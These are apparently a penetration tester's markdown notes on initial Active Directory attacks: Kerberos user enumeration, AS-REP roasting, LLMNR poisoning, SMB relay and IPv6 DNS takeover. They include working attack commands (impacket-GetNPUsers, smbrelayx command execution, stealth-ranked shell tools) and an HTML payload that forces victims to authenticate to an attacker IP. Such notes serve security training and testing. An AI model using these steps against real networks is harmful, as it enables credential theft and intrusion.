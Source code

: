 # Phase 0:  Initial attack vectors
---
## Navigation
- **[[#Services enumeration]]**
- **[[#Attacks]]**

---
# Services enumeration
## Kerberos
- [**#Kerbrute**](https://github.com/ropnop/kerbrute)
```txt
go get github.com/ropnop/kerbrute
```
# Attacks
## Kerberos Attacks — AS-REP Roasting
**AS-REP roasting** is a Kerberos attack that allows for retrieving password hashes from users without the pre-authentication step. The pre-authentication step is the initial step in the Kerberos authentication, where a user sends an encrypted request to the KDC to authenticate to a service.
- [**Further explaination**](https://medium.com/r3d-buck3t/kerberos-attacks-as-rep-roasting-2549fd757b5)

**1- Get a valid user/s by social engineering or using #kerbrute**
- Make a *custom* wordlist of users by using [**username-anarchy**](https://github.com/urbanadventurer/username-anarchy) or any tool you like.

**2- Now we want to specify the user accounts that have the pre-authentication option disabled**
- We can use *impacket-GetNPUsers (it attempts to list and get TGTs for users with the property _“Do not require Kerberos pre-authentication”_ set).
```bash
impacket-GetNPUsers <DomainName> -usersfile <FILE> -dc-ip "IP> -request -format john
```
*NOTE: `Format john` to get the hashes in a format `john` can work with to crack it.*

## LLMNR Poisoning
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]
### Exploitation
- Use responder to MITM and recieve the hash -> [**Responder.py**](https://github.com/SpiderLabs/Responder)
### Mitigation
- See MITRE **[[#Refrences]]** below.
---

## SMB  Relay attack
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
### Checking if SMB signing id disabled
```bash 
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
### Exploitation
- Either by waiting for somenone to mistyping a domain or by sending an html payload file
#### HTML payload file
```html
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
####  Tool
```bash
smbrelayx.py -h 10.0.0.6 -c "ipconfig" # 'c' is optional to execute commands.
```
### Gaining an shell
```bash
#Tools (Require password)
wmiexec #-> stealthier (Can be used to PASSTHEHASH and get a shell)
psexec #-> stealthier
smbexec #-> not stealthy
```

## IPv6 DNS Takeover
Useful and important
- [Delegation attack](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [Attack](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

## Refrence
- [**BLOG Explaning various techniques**](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
- [**LLMNR Poison MITRE**](https://attack.mitre.org/techniques/T1557/001/) **&**  [**LLMNR Poison Meduim**](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
- [**SMB Relay**](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)
